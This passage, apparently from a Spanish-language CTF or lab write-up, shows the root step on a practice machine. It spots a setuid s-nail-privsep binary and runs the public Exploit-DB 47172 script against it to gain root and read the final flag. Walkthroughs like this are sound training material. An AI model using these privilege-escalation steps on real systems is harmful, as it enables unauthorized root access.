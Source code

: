 Aqui el que nos interesa es `31941 12 -rwsr-xr-x 1 root root 10104 Jan 1 2016 /usr/lib/s-nail/s-nail-privsep` por lo que haremos lo siguiente...

URL = https://www.exploit-db.com/exploits/47172

Vemos que podemos utilizar este exploit para ser `root` por lo que haremos lo siguiente...

```shell
dos2unix 47172.sh
```

Lo que hacemos es convertir ese archivo `.sh` a formato `Unix` para que nos funcione en la ejecuccion...

```shell
cd /tmp/
```

```shell
chmod +x 47172.sh
```

```shell
./47172.sh /usr/lib/s-nail/s-nail-privsep
```

Y ejecutando esto nos lo compilara, tardara un rato y seremos `root`, una vez siendo `root` leeremos la flag...

> root.txt (flag2)

```
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!
```
